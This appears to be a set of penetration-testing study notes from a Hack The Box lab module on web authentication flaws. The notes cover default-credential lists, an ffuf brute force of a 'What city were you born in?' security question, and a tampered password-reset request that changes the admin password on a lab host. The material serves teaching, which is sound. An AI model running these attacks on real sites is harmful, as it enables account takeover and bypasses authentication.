 # Default Credentials
Many web applications are set up with default credentials to allow accessing it after installation.

[Testing for Default Credentials](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/02-Testing_for_Default_Credentials) is an essential part of authentication testing in OWASP's Web Application Security Testing Guide. According to OWASP, common default credentials include `admin` and `password`.
## Testing Default Credentials
Many platforms provide lists of default credentials for a wide variety of web applications. Such an example is the web database maintained by [CIRT.net](https://www.cirt.net/passwords). For instance, if we identified a Cisco device during a penetration test, we can search the database for default credentials for Cisco devices:
![](https://academy.hackthebox.com/storage/modules/269/pw/default_creds_1.png)

Further resources include [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub repository which contains a list of default passwords for a variety of different vendors.

We can also try to search for default credentials by searching something like `bookstack default credentials` on Google:
![](https://academy.hackthebox.com/storage/modules/269/pw/default_creds_3.png)
# Vulnerable Password Reset
## Guessable Password Reset Questions
Often, web applications authenticate users who have lost their passwords by requesting that they answer one or multiple security questions.

Assuming we had found such functionality on a target website, we should try abusing it to bypass authentication. Often, the weak link in a question-based password reset functionality is the predictability of the answers. It is common to find questions like the following:

- "`What is your mother's maiden name?`"
- "`What city were you born in?`"

While these questions seem tied to the individual user, they can often be obtained through `OSINT`.

For instance, assuming a web application uses a security question like `What city were you born in?`.

We can attempt to brute-force the answer to this question by using a proper wordlist. For instance, [this](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.

Since the CSV file contains the city name in the first field, we can create our wordlist containing only the city name on each line using the following command:
```bash
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

We could narrow down the cities if we had additional information on our target to reduce the time required for our brute-force attack on the security question. For instance, if we knew that our target user was from Germany, we could create a wordlist containing only German cities, reducing the number to about a thousand cities:
```bash
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

Then we can setup an `ffuf` command to brute-force the answer:
```bash
ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```
## Manipulating the Reset Request
When a user can manipulate a potentially hidden parameter to reset the password of a different account.

Supplying an answer to a security prompt may look like this:
```http
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```

We can try to change the request to directly just skip the prompt and change the password:
```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```
